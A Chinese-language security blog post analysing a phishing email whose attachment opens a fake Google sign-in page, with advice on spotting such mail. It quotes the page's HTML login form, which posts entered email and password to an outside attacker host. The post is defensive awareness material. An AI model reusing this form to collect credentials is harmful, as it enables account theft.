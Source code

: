 ```yaml
---
layout: post
title: "Google 帳號釣魚案例"
description: "你收過釣魚信件嗎？電子郵件已經是目前常見的攻擊管道，除了惡意郵件、病毒信、釣魚信等，更有社交工程等攻擊手法。本文將分析一個簡單的 Google 帳號釣魚案例，希望大家能多防範此類攻擊！ "
category: "案例剖析"
tags: [Mail, Phishing]
author: "allenown"
keywords: "Phishing, Google, 社交工程, 網路釣魚"
og_image: ""
---
```



最近身邊的朋友不斷的收到 Gmail 中 Google 的警告：

![Gmail state-sponsored attacker warning](https://lh6.googleusercontent.com/-GpAMTR_IrK0/UzlQhywLcII/AAAAAAAAAO8/LgV3z4knQc4/w788-h26-no/2014-03-31-Google-Account-Phishing-Scam-01.png "Gmail state-sponsored attacker warning")

![Gmail 國家資助的攻擊者警告](https://lh4.googleusercontent.com/-4JfiexvrRVs/UzlQh7GiRPI/AAAAAAAAAOw/uGaBU031GnA/w1024-h649-no/2014-03-31-Google-Account-Phishing-Scam-03.png "Gmail 國家資助的攻擊者警告")

駭客間的戰爭已經不只是個人對個人，而已經擴大成國家對國家。一個國家為了獲取他國的機密文件、情報、個人資料等，都會想盡各種辦法入侵帳號、寄送惡意郵件、釣魚盜取密碼等。而身為受害者的我們能做什麼呢？Google 官方提出的建議是：加強密碼安全、注意登入 IP 位址、更新自己使用的軟體、[開啟二階段驗證](https://support.google.com/accounts/answer/180744?hl=zh-Hant)。當然有良好的資安意識才是更重要的。

正好今天收到一個簡單的案例，提供給各位參考。

READMORE

在信箱中躺著一封很像是國外客戶的信件「Company Profile / Order Details」。內容看起來也很正常，並且附上了公司的基本資料為附加檔案。

![釣魚信件](https://lh6.googleusercontent.com/-BczI2MA-WFw/UzlQihSF0bI/AAAAAAAAAO0/qkzfK9xXoZ8/w708-h548-no/2014-03-31-Google-Account-Phishing-Scam-04.png "釣魚信件")

點開附件，會發現畫面先跳了 JavaScript 警告視窗後，隨即導向到 Google 登入頁面。

注意看，這個登入頁面是真的嗎？有沒有發現畫面上的「Stay signed in」前面的勾變成方框了？瀏覽器上的網址也是在本機的位址。想想看，怎麼可能點了附件之後，跳轉到 Google 登入畫面？

![釣魚信件附件假冒 Google 登入](https://lh3.googleusercontent.com/-a_-JazlxC0o/UzlQiscnjDI/AAAAAAAAAPE/i9vS3hd5m_I/w897-h678-no/2014-03-31-Google-Account-Phishing-Scam-05.png "釣魚信件附件假冒 Google 登入")

讓我們看一下原始碼，會發現他的 form 被改成一個奇怪的網址，看起來就是惡意網站。其餘網頁的部份都是從 Google 真實的登入頁面抓取下來修改的。因此只要一不注意，就會以為是真的 Google 登入畫面而輸入帳號密碼。

[![釣魚信件原始碼](https://lh6.googleusercontent.com/-zI1dvdo-yQk/UzlQjVfs2gI/AAAAAAAAAPI/F4Lv_G43Tgo/w850-h678-no/2014-03-31-Google-Account-Phishing-Scam-06.png "釣魚信件原始碼")](https://lh6.googleusercontent.com/-zI1dvdo-yQk/UzlQjVfs2gI/AAAAAAAAAPI/F4Lv_G43Tgo/w1280/2014-03-31-Google-Account-Phishing-Scam-06.png)

節錄部分 code 如下：
{% highlight html %}
 <form novalidate="" method="post" action="http://cantonfair.a78.org/yahoo/post.php" id="gaia_loginform">
  <input name="GALX" value="6UMbQQmFgwI" type="hidden">
  <input name="continue" value="http://mail.google.com/mail/" type="hidden">
  <input name="service" value="mail" type="hidden">
  <input name="hl" value="en" type="hidden">
  <input name="scc" value="1" type="hidden">
  <input name="sacu" value="1" type="hidden">
  <input id="_utf8" name="_utf8" value="☃" type="hidden">
  <input name="bgresponse" id="bgresponse" value="js_disabled" type="hidden">
  <input id="pstMsg" name="pstMsg" value="1" type="hidden">
  <input id="dnConn" name="dnConn" value="" type="hidden">
  <input id="checkConnection" name="checkConnection" value="youtube:424:1" type="hidden">
  <input id="checkedDomains" name="checkedDomains" value="youtube" type="hidden">
<label class="hidden-label" for="Email">Email</label>
<input id="Email" name="Email" placeholder="Email" spellcheck="false" class="" type="email">
<label class="hidden-label" for="Passwd">Password</label>
<input id="Passwd" name="Passwd" placeholder="Password" class="" type="password">
<input id="signIn" name="signIn" class="rc-button rc-button-submit" value="Sign in" type="submit">
{% endhighlight %}

發現了嗎？其中 form 的 action 欄位被取代成「**http://cantonfair.a78.org/yahoo/post.php**」，而這個頁面會直接接收受害者輸入的帳號密碼，並且自動跳轉到真正的 Google 登入頁面。攻擊者從 a78.org 這個網站中直接取得所有被駭的人輸入的帳號密碼。

這是一個很簡單、典型、又易被發現的釣魚案例。如果一時不察不小心輸入了帳號密碼，下次帳號被盜的就是自己。建議大家在收取信件的時候遵循幾大原則：

1. 不隨便開啟附加檔案：附件常夾帶惡意程式、執行檔、惡意文件、釣魚網頁等，切勿隨便開啟。可使用 Google Docs 開啟附件文件防止惡意文件攻擊 Adobe PDF Reader、Microsoft Office 等程式。更常有把惡意程式加密壓縮後寄出，在信中附上密碼，借此規避防毒軟體的偵測，不可不慎。
2. 注意信件中的超連結 URL：釣魚信件常在超連結中使用惡意網站的 URL，在點選之前務必仔細檢查，更要小心「Goog**l**e」及「Goog**1**e」之類的英文數字差異。
3. 注意信件中的語氣：有的時候攻擊者仿冒你身邊可信任的人寄信給你，但是語氣、用詞要非常精準。如果出現了「**尊敬的用戶您好**」你就會發現這個應該不太像是台灣本土的信件用語。
4. 不在信件中夾帶機敏資料：信件是不安全的，切勿在信中提到帳號、密碼、個資等機密資料。
5. 不回應陌生郵件：郵件中會夾帶自己的 IP 位址，回應信件可能讓攻擊者得到這些資料。
6. 使用安全的郵件軟體：若使用安全的郵件軟體、平台，例如 Gmail，遇到惡意郵件時，會即時阻擋並且警告用戶。如果使用自己的郵件軟體，就要特別注意釣魚等攻擊。

電子郵件的攻擊已經成為滲透攻擊主要的手法之一，不少國際資安事件都是肇因於惡意郵件。例如 2013 年韓國 DarkSeoul 事件，以及竄改交易匯款資料郵件詐取匯款等。身為目標的我們更要時時注意使用電子郵件時的安全事項。